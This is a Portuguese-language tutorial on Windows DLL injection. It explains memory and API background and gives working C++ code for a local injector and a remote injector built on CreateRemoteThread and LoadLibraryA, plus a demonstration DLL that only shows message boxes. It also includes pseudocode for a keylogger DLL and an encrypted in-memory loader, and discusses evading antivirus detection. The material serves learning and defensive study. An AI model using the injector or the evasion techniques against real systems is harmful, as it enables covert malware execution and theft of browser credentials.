

# DLL Injection

## Introdução

### O que é DLL

DLL é uma sigla para **Dynamic Link Library**, ou Biblioteca de Link Dinâmico. Esse arquivo **contém dados que podem ser acessados por vários programas simultaneamente**.

No passado, os computadores tinham sérios problemas com gerenciamento de memória. As DLLs foram uma solução viável, permitindo que programas rodem em máquinas com pouca memória.

As DLLs podem conter **código, dados ou recursos** (ícones, fontes, etc). Mas na maioria das vezes, elas contém código/funções. A utilidade da DLL é modularizar o código em pequenas partes. Assim, um programa principal chama várias DLLs para rodar.

**Exemplo**: em vez de todo desenvolvedor ter que escrever o código do zero para abrir uma janela de "Salvar Arquivo", eles usam a DLL `comdlg32.dll` do windows, que tem essa função pronta.

Uma DLL também é considerada um PE (Portable Executable), assim como o EXE. Talvez você não consiga diferenciar uma DLL de um EXE pelos magic numbers, mas há uma flag no header PE que define se é EXE ou DLL.



**Links úteis**:
- [DLL - Wikipedia](https://pt.wikipedia.org/wiki/DLL)
- [comdlg32.dll](https://www.processlibrary.com/en/directory/files/comdlg32/20539/)

### APIs do Windows

Uma API é uma interface para uma aplicação "falar" com outra de modo mais fácil. A Windows API é um **conjunto de funções que facilitam o uso dos recursos do sistema operacional**.

Os aplicativos não possuem acesso direto ao processador e memória, de modo que o usuário fica restrito a alterar somente aquilo que o sistema permite. Esse acesso é **intermediado** pelas APIs do Windows.

Teoricamente, as APIs deveriam proteger o sistema. mas elas não são perfeitas.

**Exemplo de API**:

```c++
#include <windows.h>

int main(void) {
    MessageBox(
        NULL,
        (LPCWSTR)L"Resource not available\nDo you want to try again?",
        (LPCWSTR)L"Account Details",
        MB_ICONWARNING | MB_CANCELTRYCONTINUE | MB_DEFBUTTON2
    );
}
```

Acima, chamamos uma "Caixa de alerta" do Windows, que aparece na tela.

**Links úteis**:

- [Windows API](https://mentebinaria.gitbook.io/engenharia-reversa/07-windows-api)
- [API do Windows e carregamento paralelo de DLL](https://www.fergonez.net/rce/apiwin)

### Memória Virtual

Técnica gerenciada pelo sistema operacional que **permite executar programas que precisam de mais memória do que o disponível**. 

Dados na memória física que não estão sendo usados com frequência são armazenados temporariamente como **arquivos de paginação** no **disco rígido**. Esses arquivos de paginação são gerenciados como memória virtual, e recuperados ou armazenados conforme a necessidade do programa.

**Links úteis**

- [Vídeo - Virtual Memory Explained](https://www.youtube.com/watch?v=fGP6VHxqkIM&t=245s&ab_channel=BitLemon)
- [Memória Virtual - Wikipedia](https://pt.wikipedia.org/wiki/Mem%C3%B3ria_virtual)

### Paginação

Técnica de gerenciamento de memória. A memória é **dividida em pedaços do mesmo tamanho**, tanto na memória física (**frames**) quanto virtual (**páginas**). Quando um programa é executado, suas páginas são carregadas em qualquer frame disponível na memória física, sendo eles contínuos ou não.

A vantagem disso é que o programa não precisa ser encaixado na memória RAM, ele está espalhado por ela.

O processo também tem acesso às páginas que necessita sem precisar esperar que elas sejam carregadas na memória física. **Quando um processo tenta acessar uma página que não está na RAM, o SO traz a página da memória virtual**.

Cada processo tem sua própria tabela de páginas, que é um "mapa" das páginas e frames. Assim, um processo não pode acessar memória de outro processo.

**Páginas idênticas podem ser compartilhadas, como DLLs**.

Essa técnica faz com que o programador não tenha que se preocupar tanto com gerenciamento de memória.

**Links úteis**

- [Paging in Operating Systems: What it Is & How it Works](https://phoenixnap-com.translate.goog/kb/paging?_x_tr_sl=en&_x_tr_tl=pt&_x_tr_hl=pt&_x_tr_pto=tc)

### Process Address Space

Um espaço de endereçamento de processo (Process Address Space) se refere a região de memória virtual privada alocada para cada processo rodando na máquina.

|Processo A (Word):     |  Processo B (Excel):    |  Memória Física (RAM): |
|-----------------------|-------------------------|------------------------|
|0x00000000-0x0000FFFF  |  0x00000000-0x0000FFFF  | Processo A - Página 0  |
|0x00010000-0x0001FFFF  |  0x00010000-0x0001FFFF  | Processo B - Página 0  |
|0x00020000-0x0002FFFF  |  0x00020000-0x0002FFFF  | Processo A - Página 1  |
|...                    |  ...                    | Processo B - Página 1  |
|0x7FFFFFFF-0xFFFFFFFF  |  0x7FFFFFFF-0xFFFFFFFF  | ...                    |

O Windows implementa um isolamento por padrão. **Os processos só podem acessar seu próprio espaço de memória**.

Estrutura comum do espaço de endereçamento (4GB no Windows/Linux):

```plain
Endereço Alto (0xFFFFFFFF)
┌─────────────────────┐
│    Kernel Space     │ ← Espaço do sistema operacional (compartilhado)
│   (1GB ou 2GB)      │    - Acesso restrito aos processos
├─────────────────────┤
│        Stack        │ ← Variáveis locais, chamadas de função
│       (cresce ↓)    │
├─────────────────────┤
│         ↓           │
│       Heap          │ ← Memória alocada dinamicamente (malloc, new)
│       (cresce ↑)    │
├─────────────────────┤
│         ↑           │
│    Dados/BSS        │ ← Variáveis globais e estáticas
├─────────────────────┤
│       Código        │ ← Instruções do programa (.text)
└─────────────────────┘
Endereço Baixo (0x00000000)
```

**Links úteis**
- [Virtual Address Spaces - Microsoft](https://learn.microsoft.com/en-us/windows-hardware/drivers/gettingstarted/virtual-address-spaces)

### Thread

Uma Thread permite que o usuário utilize uma funcionalidade do programa enquanto outras linhas de código estão sendo executadas. Ou seja, Threads é o modo como um programa é dividido em duas ou mais tarefas que podem ser executadas concorrentemente.

Imagine apenas funções específicas sendo executadas ao mesmo tempo.

**Links úteis**
- [Thread - Wikipedia](https://pt.wikipedia.org/wiki/Thread_(computa%C3%A7%C3%A3o))

### O DLL Injection

DLL injection é um método de injeção de código, **onde um processo (o injetor) manipula outro processo ativo (alvo) para carregar uma DLL dentro desse outro processo legítimo**. A DLL injetada **ganha acesso completo ao espaço de memória, recursos e privilégios do processo**.

Podemos comparar dois programas maliciosos, onde um é apenas um EXE executável, e outro é um DLL injection.

```c++
// keylogger_standalone.exe - Programa normal
int main() {
    // Captura teclas
    while(1) {
        capturar_teclas();
        enviar_para_hacker();
        Sleep(1000);
    }
}
```

```c++
// malicious.dll - Injeta no chrome.exe
BOOL APIENTRY DllMain(HMODULE hModule, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        CreateThread(NULL, 0, keylogger_thread, NULL, 0, NULL);
    }
    return TRUE;
}
```

Comparando:
|EXE malicioso|DLL Injection|
|-------------|-------------|
|Aparece no gerenciador de tarefas|Executa dentro do processo legítimo|
|Fácil de detectar e matar|Difícil distinguir do comportamento normal|
|Bloqueado por firewall|Usa permissões do processo hospedeiro|
|Executa com privilégios do usuário|Pode herdar privilégios elevados
|Acesso apenas à própria região de memória|Pode ler cookies do navegador, capturar tokens de sessão, acessar senhas em memória|
|Passível de detecção por assinatura|Evita detecção por asinatura (sem .exe malicioso)|

A defesa de um DLL Injection requer monitoramento comportamental avançado dos processos, não apenas detecção por assinatura de arquivos.

O DLL Injection lida muito bem com **antivírus**:

- **Evita detecção por assinatura** - A DLL pode ser ofuscada/criptografada até o momento da injeção. Arquivo em disco não parece malicioso para ao scanner
```c++
// DLL criptografada em disco, descriptografada na memória
void inject_encrypted_dll() {
    // 1. Lê DLL criptografada do disco
    BYTE* encrypted_dll = read_file("innocent.data");
    
    // 2. Descriptografa na memória (nunca em disco)
    BYTE* decrypted_dll = decrypt_in_memory(encrypted_dll);
    
    // 3. Injeta diretamente da memória
    inject_from_memory(target_process, decrypted_dll);
}
```
- **Bypass de Heurística e comportamental** - Análise heurística é a análise não de assinatura, mas do comportamento do programa, que funções usa, etc. Uma DLL pode usar funções e parâmetros de modo a se mostrar como programa legítimo.

- **Malware apenas na memória** - Usando a técnica no reflective injection (usada nesse tutorial), a DLL nunca é escrita em disco, e apenas carregada na memória. O antivírus não tem arquivo nenhum para analisar.
- **Anti-Analysis** - Pode detectar se está sendo analisado por outro processo, e apresentar comportamento normal nesse momento
- **Roda em processos confiáveis em whitelist** - Processos como chrome.exe, explorer.exe, svchost.exe (explorado no ataque em 2015 contra a distribuição de energia da Ucrânia)

**Links úteis**
- [DLL Injection - Theoretical and Demonstration](https://medium.com/@0xey/t1055-001-process-injection-dll-injection-64dc14719faa)
- [Vídeo - Malware Development: Your first ever DLL Injector](https://www.youtube.com/watch?v=RasdnQmM3IY&ab_channel=LeetCipher)

### Ferramentas usadas

- VsCode
- MinGW32 (abriga compilador do C e C++)
- ProcessHacker (Gerenciador de Tarefas buffado)
- Linguagem C++

# Mão na massa

## A DLL maliciosa

Ok, precisamos **criar uma DLL maliciosa** e **injetar ela no espaço de memória do processo alvo**. Mas  **como vamos executar código malicioso dentro da DLL se o processo alvo não está usando nenhum código da nossa DLL**?

Existem 4 **callbacks** de DLL, que agem como eventos no JavaScript (onload, onclick, etc). Podemos abusar deles para executar código:

- `DLL_PROCESS_ATTACH` - Chamado quando a DLL é carregada/injetada no espaço de memória
- `DLL_PROCESS_DETACH` - Chamado quando a DLL é descarregada/liberada do espaço de memória
- `DLL_THREAD_ATTACH` - Chamado quando uma thread é criada depois que a DLL é carregada
- `DLL_THREAD_DETACH` - Chamado quando a thread é encerrado

Abaixo está o código da nossa DLL "maliciosa". A sintaxe estranha das funções é o modo como lidamos com as APIs do `<windows.h>`.

```c++
#include <windows.h>

// "Main" da nossa DLL
BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved) {
    // Dependendo do callback, retorna uma mensagem diferente
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        // MensageBox com API do Windows
        MessageBoxA(NULL, "Malicious DLL Attached and Executed!!!!!!!", "WARNING", MB_ICONEXCLAMATION);
        break;
    case DLL_PROCESS_DETACH:
        MessageBoxA(NULL, "Malicious DLL Detached!", "WARNING", MB_ICONEXCLAMATION);
        break;
    case DLL_THREAD_ATTACH:
        MessageBoxA(NULL, "Thread Created!", "WARNING", MB_ICONEXCLAMATION);
        break;
    case DLL_THREAD_DETACH:
        MessageBoxA(NULL, "Thread Terminated!", "WARNING", MB_ICONEXCLAMATION);
        break;
    }
    return TRUE;
}
```

Para compilar a DLL no MinGW32, digite o comando `g++ -shared -o minha_dll.dll minha_dll.cpp`.

## Injetor Local

Antes de injetar em um processo legítimo, vamos injetar no processo do próprio `injetor.exe`, para entender como isso funciona.

A função do injetor é injetar a DLL em algum lugar. O mais fácil é injetar no próprio processo que o injetor cria, com algumas funções simples. Aqui, já começamos a usar algumas APIs do windows.

### Explicação das APIs

- `LoadLibraryA` - Carrega uma DLL na memória do processo atual.
```c++
HMODULE LoadLibraryA(
  LPCSTR lpLibFileName   // Caminho/Nome do arquivo DLL
);
```
- `CreateThread` - Cria uma nova thread no processo atual
```c++
HANDLE CreateThread(
  LPSECURITY_ATTRIBUTES   lpThreadAttributes,  // Atributos de segurança
  SIZE_T                  dwStackSize,         // Tamanho da stack
  LPTHREAD_START_ROUTINE  lpStartAddress,      // Função a executar
  LPVOID                  lpParameter,         // Parâmetro para a função da função a executar
  DWORD                   dwCreationFlags,     // Flags de criação
  LPDWORD                 lpThreadId           // ID da thread (output)
);
```
- `WaitForSingleObject` - Espera até que um objeto (thread, processo) sinalize que terminou
```c++
DWORD WaitForSingleObject(
  HANDLE hHandle,        // Handle do objeto
  DWORD  dwMilliseconds  // Timeout de espera em milissegundos
);
```
- `CloseHandle` - Fecha um handle aberto, liberando recursos
```c++
BOOL CloseHandle(
  HANDLE hObject   // Handle a ser fechado
);
```
- `FreeLibrary` - Descarrega uma DLL previamente carregada com `LoadLibrary`
```c++
BOOL FreeLibrary(
  HMODULE hLibModule   // Handle da DLL
);
```

### Código do injetor local

```c++
#include <windows.h>
#include <stdio.h> // Para operações input/output (print)

DWORD WINAPI threadFunc(LPVOID lpParam) {
	// Código a ser rodado pela thread
	printf("Thread is running...\n");
	return 0;
}

int main(int argc, char **argv) {
	// Parâmetro que o .exe recebe: caminho da nossa DLL
	PCSTR path_to_dll = argv[1];

    // API Carrega nossa DLL no espaço de memória do nosso processo
    HINSTANCE hDll = LoadLibraryA(argv[1]);
	if (hDll == NULL) {
		printf("Failed to load DLL.\n");
		return 1;
	}

	// Cria uma thread, e passamos para ela uma função boba
    // DLL_THREAD_ATTACH ativado
	HANDLE hThread = CreateThread(NULL, 0, threadFunc, NULL, 0, NULL);
	if (hThread == NULL) {
		printf("Failed to create thread: %d\n", GetLastError());
		return 1;
	}

	// Para o programa até que a thread retorne/termine
	WaitForSingleObject(hThread, INFINITE);

	// Encerra o handle da thread
	CloseHandle(hThread);

	// Faz o Unload da DLL
	FreeLibrary(hDll);

	return 0;
}
```

### Rodando injetor local

Para **compilar**, use `g++ program.cpp -o program.exe`. O injetor é um EXE padrão.

Para **executar**: `injetor_local.exe C:\(caminho_completo)\dll_maliciosa.dll` (use sempre o caminho completo).

Você deve receber avisos em sequência, representando os callbacks sendo chamados de acordo com os eventos, e a API MessageBox sendo utilizada.

## Injetor em outro processo

No injetor anterior, usamos a API `LoadLibrary`. Essa API faz a DLL ser carregada do disco direto para a memória do processo. Essa não é a melhor maneira de carregar uma DLL maliciosa na memória, pois, na maioria das vezes, as APIs que fazem todo o processo são monitoradas por soluções de segurança.

Algumas APIs monitorados são:
- `OpenProcess`
- `VirtualAlloc`
- `VirtualAllocEx`
- `ReadProcessMemory`
- `WriteProcessMemory`
- `LoadLibrary`
- `GetModuleHandle`
- `GetProcAddress`
- `CreateRemoteThread`

Para contornar a necessidade de uso dessas APIs, devemos usar a técnica "Reflective DLL", que carrega uma DLL direto da memória. Mas aqui, usaremos um DLL Injector simples.

Primeiro, vamos apresentar as APIs a serem utilizadas.

### Explicação das APIs
As APIs já explicadas não foram repetidas.

- `OpenProcess` - Abre um handle (identificador) para um processo existente.

```c++
HANDLE OpenProcess(
    DWORD dwDesiredAccess,  // Permissões de acesso (PROCESS_ALL_ACCESS = todas)
    BOOL  bInheritHandle,   // Handle herdável? (FALSE = não)
    DWORD dwProcessId       // ID do processo alvo
);
```
- `VirtualAllocEx()` - Aloca memória no espaço de endereçamento de outro processo
```c++
LPVOID VirtualAllocEx(
    HANDLE hProcess,        // Handle do processo remoto
    LPVOID lpAddress,       // Endereço base (NULL = SO escolhe)
    SIZE_T dwSize,          // Tamanho em bytes a alocar
    DWORD  flAllocationType,// Tipo (MEM_COMMIT|MEM_RESERVE = reserva e aloca)
    DWORD  flProtect        // Proteção (PAGE_READWRITE = leitura/escrita)
);
```
- `WriteProcessMemory`- Escreve dados na memória de outro processo
```c++
BOOL WriteProcessMemory(
    HANDLE  hProcess,       // Handle do processo remoto
    LPVOID  lpBaseAddress,  // Endereço destino no processo remoto
    LPCVOID lpBuffer,       // Ponteiro para dados no processo atual
    SIZE_T  nSize,          // Número de bytes a escrever
    SIZE_T  *lpNumberOfBytesWritten // Bytes escritos (NULL = não retorna)
);
```
- `GetModuleHanldeW` - Obtém o handle (endereço base) de uma DLL já carregada.
```c++
HMODULE GetModuleHandleW(
    LPCWSTR lpModuleName    // Nome da DLL (L"kernel32.dll" = wide string)
);
```
- `GetProcAddress` - Busca o endereço de uma função dentro de uma DLL
```c++
FARPROC GetProcAddress(
    HMODULE hModule,        // Handle da DLL (kernel32.dll)
    LPCSTR  lpProcName      // Nome da função ("LoadLibraryA")
);
```
- `CreateRemoteThread` - Cria uma thread em outro processo
```c++
HANDLE CreateRemoteThread(
    HANDLE hProcess,        // Handle do processo remoto
    LPSECURITY_ATTRIBUTES lpThreadAttributes, // Segurança (NULL = padrão)
    SIZE_T dwStackSize,     // Tamanho da stack (0 = padrão)
    LPTHREAD_START_ROUTINE lpStartAddress,    // Função a executar
    LPVOID lpParameter,     // Parâmetro para a função
    DWORD dwCreationFlags,  // Flags de criação (0 = executar imediatamente)
    LPDWORD lpThreadId      // ID da thread criada (NULL = não retorna)
);
```
- Retorna o último código de erro
```c++
DWORD GetLastError(VOID);   // Retorna último código de erro (não tem parâmetros)
```

### Código do injetor

```c++
#include <windows.h>
#include <stdio.h>

// argc = número de argumentos, argv = array dos argumentos passados no terminal
int main(int argc, char** argv) {
	if (argc != 3) {
        /* 
         * O EXE recebe dois parâmetros: caminho completo para nossa DLL
         * e o ID do processo em que queremos injetar a DLL
         * 
         * O ID pode ser obtido com uma ferramenta como process hacker.
         * Ou pode ser obtido via código, pegando um snapshot de todos os 
         * processos e procurando por um programa específico e seu ID.
        */
        printf("usage: dll-injector.exe <path-to-dll> <PID>\n");
		return 1;
	}
	
	// Captura caminho (COMPLETO) da DLL (primeiro argumento)
	PCSTR dll_path = argv[1];
	// Captura PID do processo alvo (segundo argumento). Converte string ASCII para inteiro
	DWORD PID = atoi(argv[2]);
	
	// Obtém handle (identificador do SO) do processo
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
	if (hProcess == NULL) {
		printf("Failed to retrieve handle to remote process: %d\n", GetLastError());
		return 1;
	}
	
	// Aloca memória dentro do processo alvo para armazenar o caminho da DLL
	LPVOID allocated_mem = VirtualAllocEx(hProcess, NULL, strlen(dll_path) + 1, (MEM_COMMIT | MEM_RESERVE), PAGE_READWRITE);
	if (allocated_mem == NULL) {
		printf("Failed to allocate memory in remote process: %d\n", GetLastError());
		return 1;
	}
	
	// Imprime endereço da memória alocada no processo remoto
	printf("Memory allocated at: %p\n", allocated_mem);
	
	// Escreve o caminho da DLL na memória alocada do processo remoto
	BOOL write_result = WriteProcessMemory(hProcess, allocated_mem, dll_path, strlen(dll_path) + 1, NULL);
	if (!write_result) {
		printf("Failed to write DLL path to remote memory: %d\n", GetLastError());
		return 1;
	}
	
	// Obtém handle (base address) da DLL kernel32.dll
	HMODULE kernel32Base = GetModuleHandleW(L"kernel32.dll");
	if (kernel32Base == NULL) {
		printf("Failed to retrieve handle to kernel32.dll: %d\n", GetLastError());
		return 1;
	}
	
	// Obtém endereço da função LoadLibraryA dentro da kernel32.dll
	FARPROC load_library_address = GetProcAddress(kernel32Base, "LoadLibraryA");	
	// Cria uma thread remota no processo alvo que executará LoadLibraryA
	HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)load_library_address, allocated_mem, 0, NULL);
	if (hThread == NULL) {
		printf("Failed to create thread in remote process: %d\n", GetLastError());
		return 1;
	}
	
	// Aguarda a thread remota terminar sua execução
	WaitForSingleObject(hThread, INFINITE);
	
	// Limpeza: fecha os handles abertos
	CloseHandle(hProcess);

	printf("DLL injection completed successfully!\n");
	return 0;
}
```

### Fluxo do código

- Escolhemos um processo rodando, e capturamos seu PID com o process hacker
- O injetor é executado
- `OpenProcess` gera um handle (identificador dado pelo SO) para o processo alvo
- `VirtualAllocEx` usa o handle para alocar memória no processo alvo
- `WriteProcessMemory` usa o handle e endereço da memória alocada para escrever. Escrevemos o caminho da nossa DLL na memória alocada dentro do processo alvo.
- Escrevemos o caminho da DLL na memória alocada no processo alvo. Agora, precisamos carregar a DLL no espaço de memória do processo alvo (lá está apenas o caminho).
- Precisamos fazer o processo alvo executar `LoadLibrary`.
- Lembre que a DLL onde a função `LoadLibrary` está é acessível a múltiplos programas. Pela documentação da Microsoft, essa função reside no `kernel32.dll`.
- `GetModuleHandle` obtém ponteiro para o endereço base da DLL `kernel32.dll`
- `GetProcessAddress` retorna o endereço virtual da API especificada, relativo ao início do `kernel32.dll` (Ex: linha +10)
- O endereço da `LoadLibrary` é o mesmo usado pelo processo alvo (DLL!)
- `CreateRemoteThread` para executar API `LoadLibrary` dentro do processo alvo
- Thread vai ser criada, vai executar a API no endereço de memória especificado (`LoadLibrary`), e vai passar como parâmetro o endereço de memória dentro do processo alvo onde alocamos e inserimos o caminho da nossa DLL
- O typecast converte o endereço em um entry point address (fala para a thread que o endereço é o começo de um código que deve ser executado)
- Quando a DLL é carregada, os callbacks começam a funcionar.
- `WaitForSingleObject` espera a execução da Thread acabar/retornar. Setamos para esperar infinito.
- `CloseHandle` libera recursos (handle criado)
- DLL Injection feita com sucesso!

# Notas

- Rodar o CMD/PowerShell como administrador (por precaução)

- Se a DLL for compilada com MinGW32, ela só irá funcionar com programas 32-bit. Eles estão na pasta Arquivos de Programas (x86)
    - Hamachi
- Se a DLL for compilada com MinGW64, ela funciona com programas 64-bit. Eles estão na pasta Arquivos de Programas.

- O Windows só aceita caminho inteiro para o caminho da DLL (parâmetro)
